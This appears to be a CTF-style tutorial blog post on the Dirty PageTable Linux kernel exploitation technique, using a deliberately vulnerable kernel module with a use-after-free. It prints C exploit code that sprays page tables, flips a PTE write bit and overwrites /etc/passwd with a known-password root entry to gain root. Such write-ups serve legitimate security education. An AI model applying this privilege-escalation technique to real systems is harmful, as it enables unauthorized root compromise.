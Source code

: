 ```yaml
---
title: Linux Kernel Exploitation - Dirty PageTable
date: 2025-04-28
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain Dirty PageTable, a universal and data-only exploitation technique that allows us to gain arbitrary read and write access to the entire physical memory. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-pagetable) beforehand.

## Analysis
The vulnerable LKM provides four commands: `CMD_ALLOC`, `CMD_READ`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, read from, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, It is not difficult to control RIP and escalate privileges by performing cross-cache attack, as expalined in the [last post](https://r1ru.github.io/posts/1). However, in this post, we take a data-only approach using Dirty Pagetable. Data-only attacks are increasingly important in the current era (due to CONFIG_CFI_CLANG) and are widely used in real-world kernel exploits.

## Dirty PageTable
As explained in the [previous post](https://r1ru.github.io/posts/1), by using cross-cache attack, we can overlap victim objects with arbitrary kernel objects. In Dirty PageTable, we overlap victim objects with page tables. Since we already have read and write primitives, we can modify page tables as we like, resulting in arbitrary read and write access to the entire physical memory.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of page tables:
```c
int file_fd = open("/etc/passwd", O_RDONLY);
assert(file_fd != -1);

puts("[*] Spraying user pagetables to reclaim order-0 pages");
for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (mmap((void *)(0xdead0000000UL + 0x200000 * i), PAGE_SIZE, PROT_READ, MAP_SHARED | MAP_FIXED_NOREPLACE, file_fd, 0) == MAP_FAILED) {
        printf("[-] Failed to mmap %#lx\n", 0xdead0000000UL + 0x200000 * i);
        exit(1);
    }
    *(volatile char*)(0xdead0000000UL + 0x200000 * i);
}
```
Here, we map /etc/passwd to user space. Note that we use `MAP_FIXED_NOREPLACE` flag and read from the page to ensure the page mapping is new and actually mapped.

Next, we locate the victim object and modify the PTE:
```c
unsigned long pte;
int victim = -1;
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    obj_read(i, (char *)&pte, 8);
    if (pte != 0) {
        victim = i;
        printf("[+] Found victim = %d, pte = %#lx\n", victim, pte);
        pte |= 0x2;
        printf("[*] Overwritting PTE with %#lx\n", pte);
        obj_write(victim, (char *)&pte, 8);
        break;
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim object");
    exit(0);
}
```
Here, we enable the R/W flag. After this, we can modify /etc/passwd, even though the page was initially mapped as read-only. See the [osdev article](https://wiki.osdev.org/Paging) for more details about paging.

Finally, we overwrite /etc/passwd (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`):
```c
system("echo -e 'root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh' > /tmp/evil");
int evil_fd = open("/tmp/evil", O_RDONLY);
assert(evil_fd != -1);
struct stat evil_stat;
assert(fstat(evil_fd, &evil_stat) != -1);

for (int i = 0; i < NUM_PAGE_TABLE_SPRAY ; i++) {
    if (pread(evil_fd, (char *)(0xdead0000000UL + 0x200000 * i), evil_stat.st_size, 0) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        exit(0);
    }
}
```
Note that we use `pread` to ignore `SIGSEGV`. If we directly write to memory and the corresponding PTE is not valid, the program will exit.

By running this exploit, we can log in as a root user and see the flag:
![win](/assets/img/posts/2025-04-28-2/win.png)

## References
> The original article, *Nicolas Wu. Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel. https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html* seems to be broken now.
{: .prompt-info }
1. Jann Horn. 2021. How a simple Linux kernel memory corruption bug can lead to complete system compromise. https://googleprojectzero.blogspot.com/2021/10/how-simple-linux-kernel-memory.html